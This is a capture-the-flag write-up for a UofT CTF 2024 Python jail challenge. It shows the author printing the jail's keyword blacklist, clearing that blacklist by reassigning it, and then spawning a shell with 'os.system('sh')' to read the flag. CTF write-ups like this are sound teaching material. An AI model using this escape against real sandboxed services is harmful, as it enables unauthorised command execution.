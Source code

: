 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description: N/A
points: 100
solves: 295
tags: jail pyjail blacklist
date: 2024-1-15
comments: false
---
```


@windex told me that jails should be sourceless. So no source for you.  

Author: SteakEnthusiast  

`nc 35.226.249.45 5000`  

---

We're given a pyjail without a source file.  

After a bit of exploration, I entered `print(dir())`. This returned the following:  

```py
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'cmd', 'i']
```

So there's a blacklist variable. Can we print it out?  

```py
print(blacklist)
```

This returns:

```py
['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.']
```

Perfect. Now we know what's blacklisted.  

I wasn't sure how to proceed, so I turned to Google. By simply searching `pyjail blacklist`, I found [this](https://ctftime.org/writeup/37232). Its input didn't quite work since it included a `.`, but it gave me an idea. What if I just set blacklist to an empty list?  

```py
blacklist = []
print(blacklist)
```

```py
[]
```

It worked! Now we can just pop a shell and get the flag:  

```py
import os; os.system('sh')
```

```
ls
cat flag
```

    uoftctf{you_got_out_of_jail_free}
